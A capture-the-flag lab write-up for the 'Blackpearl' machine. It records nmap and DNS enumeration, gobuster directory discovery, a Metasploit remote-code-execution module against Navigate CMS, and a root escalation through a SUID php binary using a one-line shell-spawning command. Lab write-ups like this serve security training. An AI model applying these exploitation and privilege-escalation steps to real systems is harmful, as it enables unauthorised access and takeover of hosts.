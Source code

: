 # Scanning & Enumeration

## Nmap

Scan subnet:
```bash
nmap -sn 10.0.0.0/24

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 16:37 CET
Nmap scan report for 10.0.0.11
Host is up (0.00076s latency).
Nmap scan report for 10.0.0.17
Host is up (0.00054s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 2.52 seconds
```

Scan all ports:
```bash
# Nmap 7.94SVN scan initiated Fri Mar  8 16:38:10 2024 as: nmap -p- -oN blackpearl_all.nmap 10.0.0.17
Nmap scan report for 10.0.0.17
Host is up (0.00048s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

# Nmap done at Fri Mar  8 16:38:15 2024 -- 1 IP address (1 host up) scanned in 4.84 seconds
```

Scan services on open ports:
```bash
# Nmap 7.94SVN scan initiated Fri Mar  8 16:39:06 2024 as: nmap -p 22,53,80 -sV -sC -oN blackpearl_open.nmap 10.0.0.17
Nmap scan report for 10.0.0.17
Host is up (0.00033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  8 16:39:20 2024 -- 1 IP address (1 host up) scanned in 14.44 seconds
```

UDP scan:
```bash
# Nmap 7.94SVN scan initiated Fri Mar  8 16:45:48 2024 as: nmap -sU -oN blackpearl_udp.nmap 10.0.0.17
Nmap scan report for 10.0.0.17
Host is up (0.00026s latency).
Not shown: 998 closed udp ports (port-unreach)
PORT   STATE         SERVICE
53/udp open          domain
68/udp open|filtered dhcpc
MAC Address: 08:00:27:C6:03:EC (Oracle VirtualBox virtual NIC)

# Nmap done at Fri Mar  8 17:02:38 2024 -- 1 IP address (1 host up) scanned in 1009.23 seconds
```

UDP scan open:
```bash
# Nmap 7.94SVN scan initiated Fri Mar  8 17:10:52 2024 as: nmap -sU -p 53,68 -sV -sC -oN blackpearl_udp_open.nmap 10.0.0.17
Nmap scan report for 10.0.0.17
Host is up (0.00033s latency).

PORT   STATE         SERVICE VERSION
53/udp open          domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
|_dns-recursion: Recursion appears to be enabled
68/udp open|filtered dhcpc
MAC Address: 08:00:27:C6:03:EC (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  8 17:12:46 2024 -- 1 IP address (1 host up) scanned in 114.38 seconds
```

## HTTP

Directory enumeration with gobuster:
![[Pasted image 20240308164812.png]]
=> /secret
```
OMG you got r00t !


Just kidding... search somewhere else. Directory busting won't give anything.

<This message is here so that you don't waste more time directory busting this particular website.>

- Alek 

```

Use *dnsrecon* to enumerate domain names on the remote dns server via reverse DNS lookups:
```bash
dnsrecon -r 127.0.0.0/24 -n 10.0.0.17
```
Args:
`-r`: Reverse lookup IP address range
`-n`: Name server

![[Pasted image 20240308173454.png]]

Edit the file `/etc/hosts and add the line:
`10.0.0.17       blackpearl.tcm`

Now, wwhen we navigate to *http://blackpearl.tcm* in our browser, the browser will set the Host header to *blackpearl.tcm*, which in this case is a virtual host. And thus we are able to access the homepage of that virtual host.

![[Pasted image 20240308173740.png]]

Enumerate directories:
![[Pasted image 20240308174002.png]]
=> /navigate

Enumerate files:
![[Pasted image 20240308174103.png]]
=> index.php: this is the PHPinfo page
=> crossdomain.xml:
![[Pasted image 20240308174137.png]]

Enumerate dir of /navigate:
![[Pasted image 20240308174243.png]]

Enum files of /navigate:
![[Pasted image 20240308174319.png]]

At http://blackpearl.tcm/navigate/login.php there is a login page:
![[Pasted image 20240308174727.png]]
In the bottom right corner we can see that this is a CMS and also the version:
![[Pasted image 20240308174809.png]]

Googling "navigate cms" we come across an RCE exploit for the software:
https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/
# Exploitation

Msfconsole search "navigate":
![[Pasted image 20240308175008.png]]
```msfconsole
set RHOSTS blackpearl.tcm
run
```
=> this give as a meterpreter shell.
With the meterpreter command `shell` we get a system shell.

Optional:
We could spawn a TTY shell (https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html)

Download *linpeas.sh* from attacker http server and execute it.
`/usr/bin/php7.3` is a SUID binary:
![[Pasted image 20240308220255.png]]
=> php SUID binary

From https://gtfobins.github.io/gtfobins/php/ SUID just use the last line with the php binary: 
```bash
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```

Success! We got a root shell:
![[Pasted image 20240308221008.png]]
